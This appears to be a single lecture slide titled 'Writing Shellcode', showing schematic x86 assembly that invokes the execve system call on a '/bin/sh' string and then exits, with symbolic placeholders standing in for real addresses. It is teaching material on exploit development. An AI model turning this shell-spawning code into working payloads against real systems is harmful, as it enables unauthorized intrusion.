

# Writing Shellcode

        movl   string_addr, string_addr_addr
        movb   $0x0, null_byte_addr
        movl   $0x0, null_string
        movl   $0xb,%eax
        movl   string_addr, %ebx
        leal   string_addr, %ecx
        leal   null_string, %edx
        int    $0x80
        movl   $0x1, %eax
        movl   $0x0, %ebx
        int    $0x80
        /bin/sh string goes here